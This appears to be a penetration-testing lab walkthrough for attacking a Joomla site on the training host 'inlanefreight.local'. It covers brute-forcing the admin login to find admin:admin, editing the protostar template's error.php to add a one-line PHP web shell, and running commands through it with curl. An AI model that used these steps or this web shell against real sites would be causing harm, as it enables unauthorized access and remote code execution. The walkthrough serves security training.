 **Findings:**

* Components: `com_actionlogs`, `com_admin`, `com_ajax`, `com_banners`
* Explorable directories and LICENSE files


## Authentication Brute Force

Default Joomla admin username is `admin`. Password is set during installation.

### Attempt brute-force with weak credentials

```bash
sudo python3 joomla-brute.py -u http://dev.inlanefreight.local -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin
```

**Successful login:**

```plaintext
admin:admin
```

---

# Attacking Joomla

## Objective
Gain access to the internal environment of a Joomla-based e-commerce site to perform enumeration or post-exploitation activities.

## 🎯 Abusing Built-In Functionality

### 1. Admin Panel Login
- Target: `http://dev.inlanefreight.local/administrator`
- Credentials: `admin:admin`

### 2. Fixing Login Error
If you encounter:

"An error has occurred. Call to a member function format() on null"

- Navigate to: `http://dev.inlanefreight.local/administrator/index.php?option=com_plugins`
- Disable: `Quick Icon - PHP Version Check` plugin

### 3. Template-Based RCE
- Go to: **Templates** → Select `protostar` → Edit `error.php`
- Insert PHP Web Shell:
  ```php
  <?php system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']); ?>

* Save & Close

### 4. Confirm Execution

```bash
curl -s "http://dev.inlanefreight.local/templates/protostar/error.php?dcfdd5e021a869fcc6dfaef8bf31377e=id"
```
